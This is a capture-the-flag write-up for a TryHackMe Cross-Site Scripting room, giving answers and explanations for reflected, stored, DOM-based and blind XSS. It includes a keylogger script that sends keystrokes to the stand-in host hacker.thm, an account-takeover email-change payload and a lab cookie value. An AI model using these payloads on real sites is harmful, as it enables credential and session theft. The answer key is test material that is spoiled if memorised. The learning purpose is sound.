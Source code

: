 ![Background](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/03376575e888fd097280c51469c29fbc.png)

<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/c1c509a263e7a42bece2f0b77fd1ba1b.png" width="200" height="200" align="left">

# Cross-Site Scripting

**Learn how to detect and exploit XSS vulnerabilities, giving you control of other visitor's browsers.**

**If you want to check out the room [click here](https://tryhackme.com/room/xssgi)**

---

<br>

**Table of Contents**

- [Cross-Site Scripting](#cross-site-scripting)
  - [Task 1 Room Brief](#task-1-room-brief)
  - [Task 2 XSS Payloads](#task-2-xss-payloads)
  - [Task 3 Relfected XSS](#task-3-relfected-xss)
  - [Task 4 Stored XSS](#task-4-stored-xss)
  - [Task 5 DOM Based XSS](#task-5-dom-based-xss)
  - [Task 6 Blind XSS](#task-6-blind-xss)
  - [Task 7 Perfecting your payload](#task-7-perfecting-your-payload)
  - [Task 8 Practical Example (Blind XSS)](#task-8-practical-example-blind-xss)

## Task 1 Room Brief

**What does XSS stand for?**

    Cross-Site Scripting

## Task 2 XSS Payloads

**Which document property could contain the user's session token?**

    document.cookie

**Which JavaScript method is often used as a Proof Of Concept?**

    alert

btoa()

: Is a function that accepts javascript string as an parameter and base64 encodes it in order to make it safe for a browser to transport. This along with the `document.cookie` parameter an attacker can steal a victims cookie session in order to login as that user without knowing the credentials.

📰 **Note:** Javascript can be used in order to set a keylogger on the victim site thus giving the attacker the chance to passively gather user keystrokes with the goal of obtaining credentials. An example line for a XSS keylogger may look like this:

```js
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

Business Logic attacks

: These are flaws in the original design and implementation of the web app that allow an attaker to be able to exectue unintended behavior. This can be used to essentially put the attacker as a Man In The Middle between the user and the application itself. An example of this in terms of XSS would be as follows:

```js
<script>user.changeEmail('attacker@hacker.thm');</script>
```

Where the `user.changeEmail()` would be a function within the application that would enable the attaker to change the official email of the site to one of their control thus potentially posing as a help desk or customer support for the user and social engineering the victim into divulging information/credentials giving access over the victims account.

## Task 3 Relfected XSS

**Where in an URL is a good place to test for reflected XSS?**

    Parameters

Although there are different types of XSS attacks, **Reflected** XSS occurs when a malicious script is, as the name suggests, reflected off a web app to the victim browser through a link in order to activate the attack. This can be used to acquire the victims session cookie/token, this type of behavior can be seen when a web app processes the data in an unsafe way and reflects the parameter in it's response back to the user as shown below.

Original unsafe URL:

```http
https://insecure-website.com/search?term=gift

The response from the web app to this link would look like this:

<p>You searched for: gift</p>
```

Now, when a malicious actor injects their script into the parameter field it can look like this:

```http
https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>

The response from the web app to this link would look like this:

<p>You searched for: <script>/* Bad stuff here... */</script></p>
```

📰 **Note:** This sort of attack can be performed in numerous ways and creativity is key but it vulnerability will need modification depending on what sort of protection is in place on the web app itself so keep a lookout for any details that might give it away.

## Task 4 Stored XSS

**How are stored XSS payloads usually stored on a website?**

    Database

Stored XSS
: This type of attack is capable of stealing a victims cookie session via database poisoning in order to obtain the victims account credentials or potentially spread malware onto whoever visits the site with javascript enabled in their browser which sadly is the mayority of users.

## Task 5 DOM Based XSS

**What unsafe JavaScript method is good to look for in source code?**

    eval()

eval()
: The eval function is mostly used to evaluate strings and expressions according to what sort of argument the user inputs into the function. An alternative to eval is `Function()` . Just like `eval()` , `Function()` takes some expression as a string for execution, except, rather than outputting the result directly, it returns an anonymous function to you that you can call. **It is highly suggested not to use the eval function as it is insecure and can lead to XSS attacks.**

## Task 6 Blind XSS

**What tool can you use to test for Blind XSS?**

    xsshunter

XSSHunter
: Is a tool that will automatically capture cookies, URLs, page contents and more. This works by hosting specialized XSS probes which, upon firing, scan the page and send information about the vulnerable page to the XSS Hunter service. You can visit the [xsshunter's](https://xsshunter.com/features) site to learn more about it and sign up if you so wish.

**What type of XSS is very similar to Blind XSS?**

    Stored XSS

📰 **Note:** Blind XSS is similar to a stored XSS (which we covered in task 4) in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

## Task 7 Perfecting your payload

**What is the flag you received from level six?**

    ❗ This question cannot be given in accordance with TryHackMe's rules for submitting writeups for the room

## Task 8 Practical Example (Blind XSS)

**What is the value of the staff-session cookie?**

    4AB305E55955197693F01D6F8FD2D321
